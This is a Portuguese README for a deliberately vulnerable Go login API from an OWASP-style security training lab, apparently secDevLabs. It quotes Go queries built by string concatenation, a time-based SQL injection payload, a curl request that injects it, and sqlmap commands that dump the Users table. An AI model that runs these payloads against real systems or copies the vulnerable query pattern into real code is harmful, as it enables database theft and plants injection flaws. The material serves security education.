


# CopyNPaste API

[Access content in English](README.md)


CopyNPaste é uma aplicação web Golang que usa uma API e um front-end simples para simular uma página de login. Possui rotas `/register` e `/login` que, ao se comunicar com um banco de dados MySQL, permitem que os usuários se registrem e entrem em um sistema genérico. 

## Index

- [Definição](#o-que-é-injeção)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/copy-n-paste
```

```sh
make install
```

Depois é só visitar [localhost:10001][app], conforme exemplificado abaixo:


## Conheça o app 💉

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples: 

- Registre um novo usuário via front-end.
- Faça login como este usuário via front-end.

- Registre outro usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```

- Faça login como este segundo usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A falta de validação de entrada permite a injeção de consultas SQL

Depois de revisar `NewUser()` , `CheckIfUserExists()` e `AuthenticateUser()` de [`db.go`](<(https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/copy-n-paste/app/util/db.go#)>), foi possível ver que algumas entradas de usuários estão concatenadas com consultas SQL, conforme mostrado nos seguintes trechos de código:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

Como nenhuma validação está sendo feita nessas variáveis, as injeções de SQL podem ser executadas com sucesso no banco de dados. Usando a interface web, podemos enviar algumas informações, usando o formulário da "página de inspeção", para entender melhor como ela se comunica com a API.



Para confirmar que o campo de entrada é vulnerável, a seguinte carga útil pode ser usada para testar se um atraso de 5 segundos será observado após o envio:

```
-1' UNION select 1,2,sleep(5) -- '
```


Usando `curl` na interface CLI, podemos testá-lo novamente, desta vez com um atraso maior de 30 segundos:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Requisição:


30 segundos depois, confirmando que podemos executar comandos no servidor: 



#### 🔥

Um invasor pode agora criar qualquer consulta SQL maliciosa e enviá-la para a API que, em teoria, seria executada. Para esta narrativa de ataque, [sqlmap](https://github.com/sqlmapproject/sqlmap) será usado para exemplificar como um ataque automatizado de SQL Injection pode ser executado.

Para instalar o sqlmap em um Mac você pode simplesmente digitar:

```sh
brew install sqlmap
```

O primeiro passo possível é criar um arquivo, `postRequest.txt`, contendo o próprio HTTP POST, conforme mostrado no código a seguir:


```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Antes de executar o ataque, você pode abrir uma nova aba em seu terminal e digitar o seguinte comando para observar como as solicitações maliciosas serão recebidas pelo app:

```sh
docker logs a1_api -f
```

Depois disso, agora podemos usar a opção `-r` e esperar que o sqlmap execute várias solicitações maliciosas até encontrar o parâmetro vulnerável:

```sh
sqlmap -r postRequest.txt
```


Depois de entender como esse banco de dados é estruturado, um invasor pode usar o seguinte comando para recuperar os detalhes do banco de dados:

```sh
sqlmap -r postRequest.txt --tables
```

E, em seguida, recupere informações confidenciais dele:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```


## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute consultas SQL no banco de dados.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs
